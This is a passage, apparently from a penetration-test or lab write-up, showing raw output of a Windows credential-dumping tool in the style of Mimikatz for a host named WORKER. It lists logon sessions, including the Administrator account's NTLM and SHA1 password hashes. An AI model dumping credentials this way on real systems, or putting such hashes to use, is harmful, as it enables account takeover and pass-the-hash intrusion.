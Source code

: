 ```bash
Logon Time        : 2020-09-04 08:32:15
SID               : S-1-5-21-3082756831-2119193761-3468718151-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : WORKER
         * NTLM     : c699db8a49441d1a9764bdfe3fcbd84f
         * SHA1     : 75d6eb5bfa5a2fb242cf10f4f4f6aca2c99d01c6
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : WORKER
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : WORKER
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 217806 (00000000:000352ce)
Session           : Service from 0
User Name         : DefaultAppPool
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 2020-09-04 08:30:07
SID               : S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
        msv :
        tspkg :
        wdigest :
         * Username : WORKER$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WORKER$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 2020-09-04 08:29:46
SID               : S-1-5-20
        msv :
        tspkg :
        wdigest :
         * Username : WORKER$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : worker$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2020-09-04 08:29:47
```